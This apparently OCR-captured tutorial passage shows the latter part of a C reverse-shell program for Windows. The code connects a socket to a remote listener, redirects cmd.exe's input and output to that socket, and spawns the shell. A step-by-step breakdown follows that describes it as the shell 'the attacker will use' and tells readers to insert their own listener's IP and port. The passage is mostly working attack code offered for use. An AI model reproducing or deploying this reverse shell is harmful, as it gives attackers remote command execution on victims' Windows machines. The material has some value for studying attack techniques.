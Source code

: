 ```c
    server.sin_family = AF_INET;
    server.sin_port = htons(server_port);
    
    // duplicate socket to stdin, stdout, stderr
    if (connect(s, (struct sockaddr *)&server, sizeof(server)) < 0) {
        closesocket(s);
        WSACleanup();
        return 1;
    }
    STARTUPINFO si;
    PROCESS_INFORMATION pi;
    memset(&si, 0, sizeof(si));
    si.cb = sizeof(si);
    si.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
    si.hStdInput = si.hStdOutput = si.hStdError = (HANDLE) s;
    
    // spawn the shell
    if (CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi) == 0) {
        closesocket(s);
        WSACleanup();
        return 1;
    }
    
    // wait for single object
    WaitForSingleObject(pi.hProcess, INFINITE);
    
    // cleanup
    closesocket(s);
    WSACleanup();
    return 0;
}
```

**Code breakdown:**

- Winsock
    - Windows uses Winsock for networking, to use networking on Windows you will need to initialize Winsock.
- Socket creation
    - A socket is created using the `socket` function. Specifying that it will use a IPv4 socket (`AF_INET`) and use TCP (`SOCK_STREAM`).
- Connection
    - The `connect` function is used to connect to the provided IP address. You will need to replace the IP and port to whatever is listening on your listener.
- Duplicating streams
    - The `STARTUPINFO` structure is used to redirect the standard input, output, and error streams to the socket. This allows the attacker to send commands and receive the output of those commands over the network.
- Spawning `cmd.exe`
    - The `CreateProcess` function starts the cmd.exe process which is the shell the attacker will use.
- Waiting for the process
    - `WaitForSingleObject` waits for the cmd.exe process to finish this keeps the connection alive.
- Cleanup
    - After the shell terminates, the socket is closed and Winsock is cleaned up using `WSACleanup()`
